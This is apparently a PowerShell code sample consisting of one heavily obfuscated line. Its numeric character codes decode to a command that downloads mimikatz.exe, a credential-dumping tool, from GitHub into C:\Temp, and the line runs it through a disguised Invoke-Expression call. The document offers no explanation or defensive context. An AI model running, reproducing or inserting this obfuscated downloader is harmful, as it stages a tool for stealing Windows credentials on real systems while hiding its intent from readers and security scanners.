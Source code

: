 # code-powershell
 -jOIN( '73{110F118A111{107A101t45n87A101A98t82,101A113g117g101A115A116F32,34F104n116g116A112,115F58n47L47n103-105Z116L104L117Z98n46{99t111F109g47A80g97g114-114L111,116F83n101A99t47g109g105Z109g105{107,97Z116,122n47{98-108F111g98{47A109n97t115F116g101-114n47A87t105,110,51Z50,47g109-105A109F105Z107,97Z116{122F46F101{120A101L34,32Z45g79g117g116n70g105Z108Z101Z32,34Z67-58t92-84Z101g109-112F92g109,105Z109-105{107t97L116{122{46n101F120,101g34' -SplIt'g'-spLiT'L'-sPliT'{' -sPliT'A' -SPliT 'n'-sPlit'F'-sPlit 't'-SpLit 'Z'-SPLit'-'-Split ','| FOrEACH { ( [CHaR][int] $_) } )| & ( $PShOME[4]+$PsHOME[30]+'X')
